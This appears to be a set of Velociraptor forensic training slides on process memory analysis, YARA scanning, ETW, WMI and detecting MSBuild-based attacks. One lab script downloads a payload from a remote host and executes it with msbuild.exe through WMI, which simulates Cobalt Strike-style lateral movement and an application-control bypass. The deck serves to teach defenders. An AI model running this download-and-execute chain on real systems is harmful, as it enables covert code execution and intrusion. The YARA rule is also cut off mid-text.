






<!-- .slide: class="title" --> # Volatile machine state --- <!-- .slide: class="content" --> ## Volatile machine state * We have seen how to collect files from the endpoint * However there is so much more than files: * Processes, Threads, Handles, Mutant * Process Memory can contain important information * Network connections --- <!-- .slide: class="content" --> ## The order of volatility * Volatile information changes rapidly * Some things change more rapidly than others * Acquiring information in the correct order helps to extract maximum value 1. Call APIs like process listing, handles etc 2. Scan process memory for signs of compromise 3. Collect files like event logs, prefetch files etc. 4. Maybe full memory capture - very rare!
<!-- .slide: class="title" --> # Processes and Memory analysis --- <!-- .slide: class="content" --> ## What is a process? * A process is a user space task with a specific virtual memory layout * A process has a Process ID (Pid), an initial binary on disk, an ACL Token, environment variables etc. * The process links binaries like `.dll` or `.exe` which can contain metadata such as signatures. * The process contains working memory which might contain additional data * Each of these properties can be inspected by Velociraptor --- <!-- .slide: class="content" --> ## Process Information Simple `pslist()` can reveal basic information about the process * Who launched the binary? * Transfer metrics (network/disk activity) * Is it elevated? * Process Creation time --- <!-- .slide: class="content" --> ## Exercise - Find elevated command shell * Write an artifact to find all currently running elevated command shells * Report how long they have run for --- <!-- .slide: class="content" --> ## Exercise - Find elevated command shell <div class="solution solution-closed"> ``` SELECT Pid, Name, Username, CommandLine, Exe, now() - CreateTime.Unix AS RunningTime FROM pslist() WHERE CommandLine =~ "cmd" AND TokenIsElevated ``` </div> --- <!-- .slide: class="content" --> ## Mapped Memory * When a binary runs it links many DLLs into it * A linked DLL is a copy on write memory mapping of a file on disk into the process memory space. * DLLs can be linked when the program starts or dynamically * DLL Hijacking relies on making a process link the wrong DLL and therefore running code under the context of a trusted proces. --- <!-- .slide: class="full_screen_diagram" --> ## Process memory view <img src="process_memory.png" style="width: 50%" /> --- <!-- .slide: class="content" --> ## The VAD plugin * This plugin shows all the process memory regions and if the memory is mapped to file, the filename it is mapped from. * DLLs and .NET assemblies are mapped into the process - so we can use this to get an idea of what the program is doing. --- <!-- .slide: class="content small-font" --> ## Exercise - look into powershell * Without enabling powershell block logging, we can get an idea of what the script is doing by looking at its dependencies. * Write VQL to list all the DLL modules that powershell is running. * Run the following command within powershell (this is typical of C&C) ``` Invoke-WebRequest -Uri "https://www.google.com" -UseBasicParsing ``` --- <!-- .slide: class="content" --> ## Exercise: Dump mapped objects * Dump the powershell process's mapped DLLs. * The DLL `winhttp.dll` is responsible for making outbound http connections. * If the http request is enabled, the process will link the winhttp.dll at runtime. * This technique works on many other programs that may load DLLs on demand. * e.g. Python --- <!-- .slide: class="content" --> ## Dumping process memory * When a binary is running it is mapped into memory <img src="../../modules/event_logs/pe_structure.png" style="width: 50%" /> --- <!-- .slide: class="content" --> ## Parsing PE files from memory * Since a PE file is just mapped into memory we can parse it directly from memory. * This is useful when the process has been unpacked (e.g. malware packers). * Unpacking the process will fix up the import and export tables with the real imports. --- <!-- .slide: class="content" --> ## Exercise: Find Powershell Module that provides WinHTTP * Write VQL to locate the Powershell module which provides the WinHTTP APIs. * Parse the mapped PE files of all dlls into the powershell process. * Inspect each dll's export directory to find WinHTTP APIs. --- <!-- .slide: class="content small-font" --> ## Exercise: Find Powershell Module that provides WinHTTP API <div class="solution solution-closed"> ``` SELECT *, PEInfo.VersionInformation FROM foreach(row={ SELECT * FROM pslist() WHERE Name =~ "powershell" }, query={ SELECT *, parse_pe(accessor="process", base_offset=Address, file=str(str=Pid)) AS PEInfo FROM vad(pid=Pid) WHERE MappingName =~ "dll$" AND PEInfo.Exports =~ "WinHttp" }) ``` </div> --- <!-- .slide: class="content" --> ## Searching memory * Velociraptor makes process memory available via the `process` accessor. * Use the string form of the pid as the filename. * Memory is sparse - but the accessor handles this automatically. * This means we can scan memory using the regular `yara()` plugin --- <!-- .slide: class="content" --> ## Exercise: Scan memory for keyword * Open notepad and write "This is a test" but do not save it anywhere! * Write VQL to detect this string. --- <!-- .slide: class="content small-font" --> ## Exercise: Scan memory for keyword <div class="solution solution-closed"> ``` LET Rule = ''' rule X { strings: $a = "this is a test" wide ascii condition: any of them } ''' SELECT * FROM foreach(row={ SELECT * FROM pslist() WHERE Name =~ "notepad" }, query={ SELECT * FROM yara(accessor="process", files=str(str=Pid), number=1, rules=Rule) }) ``` </div> --- <!-- .slide: class="content" --> ## Mutants * *Malware persistence*: Malware needs to ensure there is only a single copy of it running. * A common method is to use a Mutant (Or named mutex) Create a mutant with a constant name: If the named mutant already exists, then exit * Ensures only a single copy is run. --- <!-- .slide: class="content" --> ## Exercise - Mutants ```powershell $createdNew = $False $mutex = New-Object -TypeName System.Threading.Mutex( $true, "Global\MyBadMutex", [ref]$createdNew) if ($createdNew) { echo "Acquired Mutex" sleep(100) } else { echo "Someone else has the mutex" } ``` --- <!-- .slide: class="content" --> ## Enumerate the mutants 
<!-- .slide: class="title" --> # Event Tracing for Windows --- <!-- .slide: class="content small-font" --> ## What is ETW * ETW is the underlying system by which event logs are generated and collected. https://docs.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw <img src="etw_arch.png" style="width: 50%" /> --- <!-- .slide: class="content" --> ## ETW Providers Show all registered ETW providers ``` logman query providers ``` Show details about each provider ``` logman query providers Microsoft-Windows-DNS-Client ``` --- <!-- .slide: class="content small-font" --> ## ETW for event driven logs * ETW and event logs are just two sides of the same coin <div class="container"> <div class="col"> * Log providers are just ETW providers * In VQL `watch_etw()` can be used instead of `watch_evtx() * See `Windows.Sysinternals.SysmonLogForward` for an example </div> <div class="col">  </div> --- <!-- .slide: class="content" --> ## Exercise - Monitor DNS queries * Use ETW to monitor all clients' DNS queries. * Stream queries to server --- <!-- .slide: class="full_screen_diagram" --> ## Exercise - Monitor DNS queries  --- <!-- .slide: class="content" --> ## Windows Management Instrumentation * A framework to export internal windows state information using a query language (WQL) * Consists of classes (providers) and objects * Lots of hooks into many internal system features * Being able to inspect system state using a consistent interface allows a tool to query a wide range of services. --- <!-- .slide: class="full_screen_diagram" --> ## WMI Explorer  --- <!-- .slide: class="full_screen_diagram" --> ## WMI Explorer  --- <!-- .slide: class="full_screen_diagram" --> ```sql SELECT * FROM wmi(query="SELECT * FROM win32_diskdrive") ``` 
<!-- .slide: class="title" --> # MSBuild based attacks --- <!-- .slide: class="content" --> ## Microsoft Build Engine <div class="small-font"> * T1127.001 - Trusted Developer Utilities Proxy Execution: MSBuild * https://attack.mitre.org/techniques/T1127/001/ * https://lolbas-project.github.io/lolbas/Binaries/Msbuild/ * .NET build feature used to load project files * C# or Visual Basic code to be inserted into an XML project file. * Lateral movement * WMI * Service Control Manager (SCM) * Also observed initial maldoc or persistance * Common attack framework availability * Metasploit module * Cobalt Strike aggressor script * Many other templates on github * This is essentially an applocker / whitelisting bypass. </div> Note: Adversaries may use MSBuild to proxy execution of code through a trusted Windows utility. MSBuild.exe (Microsoft Build Engine) is a software build platform used by Visual Studio. It handles XML formatted project files that define requirements for loading and building various platforms and configurations.[1] Adversaries can abuse MSBuild to proxy execution of malicious code. The inline task capability of MSBuild that was introduced in .NET version 4 allows for C# or Visual Basic code to be inserted into an XML project file.[1][2] MSBuild will compile and execute the inline task. MSBuild.exe is a signed Microsoft binary, so when it is used this way it can execute arbitrary code and bypass application control defenses that are configured to allow MSBuild.exe execution.[3] https://github.com/rapid7/metasploit-framework/blob/master/documentation../../modules/evasion/windows/applocker_evasion_msbuild.md https://github.com/threatexpress/aggressor-scripts/tree/master/wmi_msbuild https://github.com/Cn33liz/MSBuildShell https://github.com/3gstudent/msbuild-inline-task --- <!-- .slide: class="full_screen_diagram" --> ## MSBuild: Cobalt Strike teamserver Typical Cobalt Strike Lateral Movement  --- <!-- .slide: class="content" --> ## MSBuild: Detection ideas * Process Telemetry * Process chain * Command Line * Disk * Forensic evidence of execution * Prefetch * Event Logs * WMI * Service Control * Security 5145 - \\*\C$ --- <!-- .slide: class="content" --> ## MSBuild: Disk - template file  --- <!-- .slide: class="content" --> ## MSBuild: Disk - template  --- <!-- .slide: class="content" --> ## Detection ideas * Velociraptor can deploy Yara easily in combination with many other capabilities. * In this case we want to search for template files similar to previously discussed. * Can we find the Cobalt Strike payload? * Can we find other artifacts that may indicate compromise? --- <!-- .slide: class="content" --> ## Detection ideas <div class="small-font"> * Some yara based detection artifacts include: * `Generic.Detection.Yara.Glob` - cross platform glob based file search and yara * `Generic.Detection.Yara.Zip` - cross platform archive content search and yara scan * `Windows.Detection.Yara.NTFS` - Windows NTFS file search and yara * `Windows.Detection.Yara.Process` - Windows process yara scan (default is Cobalt Strike) * `Windows.Detection.Yara.PhysicalMemory` - Windows Physical memory yara scan (winpmem) * `Linux.Detection.Yara.Process` - Linux process yara --- <!-- .slide: class="content" --> ## MSBuild: Exercise description <div class="over-height"> ```yara rule MSBuild_template { meta: description = "MSBuild template. Detects MSBuild variable setup and generic template strings." strings: // Target variables in template $s1 = "byte[] key_code = new byte[" ascii $s2 = "byte[] buff = new byte[" ascii // Target Other strings $s8 = "<Code Type=\"Class\" Language=\"cs\">" ascii $s9 = "< ```powershell ## MSBuild setup # 0. If server disable prefetch so we generate prefetch artifacts if ( $(Get-CimInstance -Class CIM_OperatingSystem).Caption -like "*Server*" ) { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 3 /f reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Prefetcher" /v MaxPrefetchFiles /t REG_DWORD /d 8192 /f Enable-MMAgent –OperationAPI -ErrorAction SilentlyContinue Start-Service Sysmain -ErrorAction SilentlyContinue } # 1. Download payload $Url = "https://present.velocidex.com/resources/kUgJI.TMP" $dest = "\\127.0.0.1\C$\Windows\Temp\kUgJI.TMP" Remove-Item -Path $dest -force -ErrorAction SilentlyContinue Invoke-WebRequest -Uri $Url -OutFile $dest -UseBasicParsing # 2. Execute payload Invoke-WmiMethod -ComputerName 127.0.0.1 -Name Create -Class Win32_PROCESS "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe C:\Windows\Temp\kUgJI.TMP /noconsolelogger" ``` --- <!-- .slide: class="content" --> ## MSBuild Exercise <div class="container small-font"> <div class="col"> * Detect payload on disk with a hunt for `Generic.Glob.Yara` * Add your created yara - [msbuild.yara](/resources/msbuild.yara) * Use file size bounds for performance 5MB - 5KB large beacon to small shellcode loader. * Target `C:\Windows\Temp` (or where you dropped the file) * Select upload file * Velociraptor enables post processing on uploaded files. * Can you extract the beacon using xor in VQL? * We will walk through this one! </div> <div class="col"> * `Generic.Glob.Yara` Parameters  </div> </div> --- <!-- .slide: class="content" --> ## MSBuild: Evidence of execution - prefetch <div class="small-font"> * Prefetch is a forensic artifact that is available on Windows workstations. * designed to increase performance by assisting application pre-loading * provides evidence of execution * name, execution times and execution count * Location is `C:\Windows\Prefetch\*.pf` * Format is `<Exe name>-<Hash>.pf` * Hash calculated based on folder path of executable and the command line options of certain programs (e.g., svchost.exe) * 1024 prefetch files in Win8+ (only 128 on Win7!) * Different formats across OS versions. * E.g Win10 prefetch is now compressed </div> --- <!-- .slide: class="content" --> ## Windows.Detection. PrefetchHunter <div class="container small-font"> <div class="col"> * Available on Velociraptor artifact exchange. * Allows users to hunt for accessed files by process in prefetch. * Returned rows include * accessed file * prefetch metadata * Best used to hunt for rare process execution. </div> <div class="col">  </div> </div>  --- <!-- .slide: class="title" --> # Memory artifacts ## Some threats are memory only --- <!-- .slide: class="content" --> ## Detect Cobalt Strike Beacon * Run the program inject.exe: * This program will inject artificial data from Cobalt Strike samples into other processes The data is not actually executable but will trigger a hit for memory scanning because it contains common Yara patterns. * https://github.com/Velocidex/injector/releases * Find a host process and provide its PID to the loader.exe --- <!-- .slide: class="content" --> ## Inject beacon into process Choose any random process to host our "beacon" sample. Sample is not actually running  --- <!-- .slide: class="content" --> ## Search for beacon in memory <div class="container small-font"> <div class="col"> * Use `Windows.Detection. Yara.Process` to search process memory for a yara signature. * Can upload process memory dumps for matching processes - these can be opened with windbg </div> <div class="col">  </div> </div> --- <!-- .slide: class="full_screen_diagram" --> ## Detecting Cobalt Strike in memory  --- <!-- .slide: class="content" --> ## Decoding Cobalt Strike Config * It is very important to identify how Cobalt strike is configured when you detect it * You can block the Cobalt Strike beacon address at the network perimeter * Deploy Yara rules to identify the configuration itself. * Cobalt Strike Config is heavily obfuscated in memory * Velociraptor can parse memory structures in VQL --- <!-- .slide: class="content" --> ## Extract configuration data from memory 
<!-- .slide: class="content" --> ## Review And Summary * Many modern attacks are only present in memory * Velociraptor is able to gather volatile machine state * We learned sophisticated process visibility plugins: * Process tokens * Analyzing PE files from memory * Dumping memory resident injected binaries --- <!-- .slide: class="content" --> ## Review And Summary * Other sources of machine state include: * Event Tracing for Windows * Event driven framework for being notified about changes in system state. * Practical example: MSBuild based attacks.